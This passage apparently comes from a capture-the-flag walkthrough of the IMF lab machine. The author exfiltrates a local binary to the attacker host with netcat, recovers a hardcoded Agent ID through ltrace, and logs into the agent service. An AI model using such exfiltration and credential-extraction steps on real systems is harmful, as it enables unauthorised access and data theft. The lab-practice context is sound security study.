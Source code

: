 ```console
www-data@imf:/tmp$ file /usr/local/bin/agent
/usr/local/bin/agent: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=444d1910b8b99d492e6e79fe2383fd346fc8d4c7, not stripped
```

I transferred the binary to the attacking machine, as follows:

```console
www-data@imf:/tmp$ nc 172.16.178.1 8080 < /usr/local/bin/agent
```

```console
root@kali:~# nc -vlnp 8080 > agent
listening on [any] 8080 ...
connect to [172.16.178.1] from (UNKNOWN) [172.16.178.128] 58676
```

Analyzing the binary, I found the Agent ID.

```console
root@kali:~# ltrace -i -C ./agent
[0x8048521] __libc_start_main(0x80485fb, 1, 0xffc16aa4, 0x8048970 <unfinished ...>
[0x804861c] setbuf(0xf7f44d20, 0)                                                                    = <void>
[0x8048635] asprintf(0xffc169c8, 0x80489f0, 0x2ddd984, 0xf7d908ce)                                   = 8
[0x8048645] puts("  ___ __  __ ___ "  ___ __  __ ___
)                                                                = 18
[0x8048655] puts(" |_ _|  \\/  | __|  Agent" |_ _|  \/  | __|  Agent
)                                                        = 25
[0x8048665] puts("  | || |\\/| | _|   Reporting"  | || |\/| | _|   Reporting
)                                                    = 29
[0x8048675] puts(" |___|_|  |_|_|    System\n" |___|_|  |_|_|    System

)                                                      = 27
[0x8048685] printf("\nAgent ID : "
Agent ID : )                                                                  = 12
[0x804869c] fgets(12
"12\n", 9, 0xf7f44580)                                                             = 0xffc169ce
[0x80486bf] strncmp("12\n", "48093572", 8)                                                           = -1
[0x80486d3] puts("Invalid Agent ID "Invalid Agent ID
)                                                                = 18
[0xffffffffffffffff] +++ exited (status 254) +++
```

And so it was possible to interact more thoroughly with the agent service.

```console
www-data@imf:/tmp$ telnet 127.0.0.1 7788
Trying 127.0.0.1...
Connected to 127.0.0.1.
Escape character is '^]'.
  ___ __  __ ___
 |_ _|  \/  | __|  Agent
  | || |\/| | _|   Reporting
 |___|_|  |_|_|    System


Agent ID : 48093572
Login Validated
Main Menu:
1. Extraction Points
2. Request Extraction
3. Submit Report
0. Exit
```